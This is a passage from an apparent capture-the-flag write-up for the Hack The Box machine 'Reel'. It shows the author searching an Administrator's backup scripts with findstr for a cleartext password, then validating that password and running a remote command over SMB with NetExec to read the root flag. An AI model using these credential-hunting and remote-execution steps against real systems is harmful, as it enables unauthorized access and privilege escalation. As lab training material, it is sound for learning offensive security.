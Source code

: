Interestingly enough, next to the flag, there is a `Backup Scripts` directory which includes 6 files. If we search for the string "_password_", the `Administrator`'s cleartext password is revealed.

```bash
# log into ssh
$ ssh claire@10.10.10.77
# launch PowerShell
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>powershell
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.
# move to the Backup Scripts directory
claire@REEL C:\Users\claire>cd ..\administrator
claire@REEL C:\Users\Administrator>cd desktop
claire@REEL C:\Users\Administrator\Desktop>dir
claire@REEL C:\Users\Administrator\Desktop>cd "Backup Scripts"
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\Administrator\Desktop\Backup Scripts

11/02/2017  09:47 PM    <DIR>          .
11/02/2017  09:47 PM    <DIR>          ..
11/03/2017  11:22 PM               845 backup.ps1
11/02/2017  09:37 PM               462 backup1.ps1
11/03/2017  11:21 PM             5,642 BackupScript.ps1
11/02/2017  09:43 PM             2,791 BackupScript.zip
11/03/2017  11:22 PM             1,855 folders-system-state.txt
11/03/2017  11:22 PM               308 test2.ps1.txt
               6 File(s)         11,903 bytes
               2 Dir(s)   4,853,219,328 bytes free
# search files for credentials
PS C:\Users\Administrator\Desktop\Backup Scripts> type * | findstr 'password'
# admin password
$password="Cr4ckMeIfYouC4n!"
```

Finally, we can confirm the obtained credentials and read the flag.

{% code overflow="wrap" %}
```bash
# validate credentials
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
# read the flag
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!' -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
SMB         10.10.10.77     445    REEL             [-] WMIEXEC: Dcom initialization failed on connection with stringbinding: "ncacn_ip_tcp:10.10.10.77[49154]", please increase the timeout with the option "--dcom-timeout". If it's still failing maybe something is blocking the RPC connection, try another exec method
SMB         10.10.10.77     445    REEL             [+] Executed command via atexec
SMB         10.10.10.77     445    REEL             128<REDACTED>367
```
{% endcode %}
